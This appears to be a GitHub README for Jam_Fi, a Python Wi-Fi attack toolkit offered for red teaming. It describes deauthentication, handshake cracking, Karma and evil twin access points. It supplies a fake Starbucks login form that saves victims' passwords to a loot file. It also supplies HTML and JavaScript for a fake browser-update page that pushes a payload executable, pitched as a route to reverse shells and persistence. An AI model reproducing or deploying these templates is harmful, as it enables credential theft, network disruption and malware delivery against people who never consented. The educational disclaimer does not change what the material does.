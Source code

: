 # 💜 Jam_Fi – Wi-Fi Chaos Tool  
by [@ekomsSavior](https://github.com/ekomsSavior)

> Built with love to teach, explore, and cause a little friendly Wi-Fi mischief. 💅

---

## ✨ What is Jam_Fi?

Jam_Fi is a powerful and playful Wi-Fi chaos and red teaming toolkit written in Python for Kali Linux. 
It's designed for educational and cybersecurity research purposes, helping you learn how attackers exploit wireless networks—and how to defend against them.

Jam_Fi includes tools for:

- Evil Twin Access Points ☠️  
- Deauthentication Attacks 💥  
- Handshake Capture & Cracking 🔓  
- Probe Request & Junk Flooding 📡  
- Karma Attacks 🧲  
- MITM HID Injection 💻  
- Fake Login Phishing with Auto-Logging 📄  
- and more...

Whether you're a beginner or advanced user, Jam_Fi gives you a hands-on way to experiment and learn in a lab setting.

---

## 🛠️ Installation

1. Clone the repo:

git clone https://github.com/ekomsSavior/JamFi
cd JamFi
Make sure you have the following installed:

sudo apt update

sudo apt install -y aircrack-ng hostapd dnsmasq dnsspoof python3-scapy

Run the tool:

sudo python3 jam_fi.py

*To Update periodically:
run from the Jam_fi directory on your machine:

git pull

----------------------------------------------------------------

## When Jam_fi is running you'll see:

🔹 1  Scan Clients & APs 🔍
     → Scans for nearby Wi-Fi networks (Access Points) and the clients connected to them using Scapy.

🔹 2  Deauth One Client 💥
     → Sends a deauthentication attack to disconnect a selected client from their Wi-Fi (uses scapy).

🔹 3  Deauth ALL Clients + Capture 🔓
     → Disconnects all clients from known APs and tries to capture WPA/WPA2 handshake packets.

🔹 4  Crack Captured Handshakes 🔓
     → Tries to crack saved WPA handshakes using Aircrack-ng or Hashcat if installed.

🔹 5  Probe Request Spam 📡
     → Broadcasts fake SSIDs as if clients are looking for networks, to create wireless noise.

🔹 6  Junk Packet Flood 💣
     → Sends randomized packets with fake MAC addresses to flood the airwaves and confuse devices.

🔹 7  Karma Responder 🧲
     → Responds to any probe request with a beacon frame, tricking devices into connecting.

🔹 8  Chaos Mode 💃
     → Combo mode! Runs Karma Responder, Junk Flood, and Probe Spam all at once.

🔹 9  View Loot 📁
     → Displays any saved handshakes, captured credentials, or other loot collected in the `loot/` folder.

🔹 🔟 Evil AP 👿
     → Launches a fully connectable Evil Twin Access Point with DNS redirection and phishing login page.

🔹 11 MITM HID Injection 🧠
     → Simulates a man-in-the-middle attack by redirecting users to a fake “driver install” page with mock keystroke injection.

🔹 0  Quit ❌
     → Exits JamFi and returns to your terminal.

--------------------------------------------------------------------------------------------------------------------     

## ✨✨✨ Tips & Tricks for Power Users ✨✨✨
Jam_Fi was made to be playful, powerful, and personal. Here's how you can take your JamFi chaos to the next level:

⚡ Performance Tips

💻 Optimize Wireless Interface:

Use an ALFA AWUS1900 or AWUS036ACH for better packet injection and monitoring.

Disable power-saving on your adapter:

sudo iw dev wlan0 set power_save off

Switch channels manually with:

iwconfig wlan0 channel 6
(Replace with the target AP’s channel for better deauth or handshake captures.)

📡 Make Scans Faster:

Edit the scan delay inside jam_fi.py (look for time.sleep() under channel_hopper()).

Lowering sleep delay to 0.2 or less can speed things up, but may increase CPU usage.

--------------------------------------------------------------------------------------------------------------------

👿 Evil AP Customization
🎨 Customize the Captive Portal

Edit this file to make your own fake login page:

loot/login.html

Wanna make it look like Starbucks? Just change the login.html body like this

````html
<h2>Welcome to Starbucks Free Wi-Fi</h2>
<p>Please sign in to continue</p>
<form method="POST" action="/login">
  <input type="text" name="username" placeholder="Email"><br>
  <input type="password" name="password" placeholder="Wi-Fi Password"><br>
  <input type="submit" value="Connect">
</form>

You can view your collected credentials in:

loot/creds.txt

-------------------------------------------------------------------------------------------------------------------

## 🔐 Advanced User Trick: Fake Browser Update + Payload (Optional)

JamFi lets you simulate a fake browser update prompt using pure HTML + JavaScript — no Flipper or Rubber Ducky required!

Once a device connects to your Evil AP, redirect them to a custom update page by editing:

loot/injection.html

Here’s a simple example:

````<!-- loot/injection.html -->
<h2>🔒 Browser Update Required</h2>
<p>To continue browsing, please install the latest security patch.</p>
<button onclick="downloadUpdate()">Update Now</button>

<script>
function downloadUpdate() {
  const a = document.createElement('a');
  a.href = 'http://10.0.0.1/fake_update.exe';  // Customize your payload here
  a.download = 'update.exe';
  document.body.appendChild(a);
  a.click();
}
</script>

Place your payload in the loot/ folder as:

fake_update.exe

You now have a simulated Remote Code Execution (RCE) opportunity: if the victim downloads and runs the file, you can trigger reverse shells, backdoors, or persistence depending on your setup.

⚠️ JamFi does not include any malicious payloads — it's up to you to create safe, controlled experiments in your own lab. This is where red teamers, CTF lovers, and students can shine.

--------------------------------------------------------------------------------------------------------------------------------

## 💼 The loot/ Folder

This folder contains all the important config and phishing assets used by Evil AP and MITM modes:

File	Purpose

index.html	The default captive portal or phishing homepage

login.html	Fake login page that logs entered usernames & passwords

phish_server.py	Hosts the phishing server & saves form data to creds.txt

creds.txt	Stores submitted login form credentials (auto-created)

hostapd.conf	Used to configure and start the Evil Access Point

dnsmasq.conf	Handles DHCP and DNS for the Evil AP

dnsspoof_hosts	Used by dnsspoof to redirect all DNS to the attacker

hotspot-detect.html	Helps trigger captive portal on iOS/macOS devices

injection.html	Used for MITM HID payload simulation (fake keystroke browser page)

All of these files are auto-generated if missing, so don’t stress if you delete them!

----------------------------------------------------------------------------------

## 🚨 Disclaimer

This tool is for educational and authorized research only.

By using Jam_Fi, you agree that you are responsible for your own actions.

Do not use this tool on networks or devices you don’t have explicit permission to test.

The goal is to educate and empower—not to harm. Use wisely 💜

---------------------------------------------------------------------------------------------

## 💜 Built With Love

Jam_Fi is a passion project created by @ekomsSavior xoxoxoox sending hugs to all the homies always ✨✨✨

It’s free, open-source, and meant to make learning cybersecurity hands-on, fun, and inclusive for all.

If you like Jam_Fi, give it a ⭐️ on GitHub and share it with your h4x0r and cybersecurity friends!

